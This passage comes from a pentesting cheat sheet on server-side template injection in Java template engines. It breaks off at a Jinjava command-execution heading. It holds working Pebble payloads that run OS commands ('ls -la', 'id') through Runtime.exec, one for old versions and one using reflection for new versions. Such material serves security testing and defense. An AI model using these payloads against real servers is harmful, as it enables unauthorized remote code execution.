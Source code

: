
[EL - Expression Language](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/el-expression-language)

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#pebble-java)

Pebble (Java)

- `{{ someString.toUPPERCASE() }}`
 

Old version of Pebble ( < version 3.0.9):



```
{{ variable.getClass().forName('java.lang.Runtime').getRuntime().exec('ls -la') }}
```

New version of Pebble :



```
{% set cmd = 'id' %}





{% set bytes = (1).TYPE
 .forName('java.lang.Runtime')
 .methods[6]
 .invoke(null,null)
 .exec(cmd)
 .inputStream
 .readAllBytes() %}
{{ (1).TYPE
 .forName('java.lang.String')
 .constructors[0]
 .newInstance(([bytes]).toArray()) }}
```

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinjava-java)

Jinjava (Java)



```
{{'a'.toUpperCase()}} would result in 'A'
{{ request }} would return a request object like com.[...].context.TemplateContextRequest@23548206
```

Jinjava is an open source project developed by Hubspot, available at [https://github.com/HubSpot/jinjava/](https://github.com/HubSpot/jinjava/)

**Jinjava - Command execution**
